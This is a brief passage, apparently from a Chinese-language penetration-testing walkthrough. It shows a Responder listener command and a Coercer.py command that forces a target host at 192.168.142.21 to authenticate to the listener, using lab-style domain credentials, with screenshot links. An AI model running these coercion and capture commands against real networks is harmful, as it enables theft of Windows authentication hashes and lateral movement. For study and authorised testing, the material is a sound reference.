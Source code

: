 也可以用 responder 监听

```plain
responder --interface eth0
```

[![](assets/1708508972-c90e3df558f47a28a8a32b47f0ea92c4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170859-aec48f22-cfcf-1.png)

发起请求

```plain
./Coercer.py coerce -l 192.168.21.101 -t 192.168.142.21 -u 'qxn' -p 'Penson@2016 永遠的神' -d penson.org -v
```

[![](assets/1708508972-302c7ad18b663d0e8ffdbb94485e5449.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170904-b1ab11e8-cfcf-1.png)
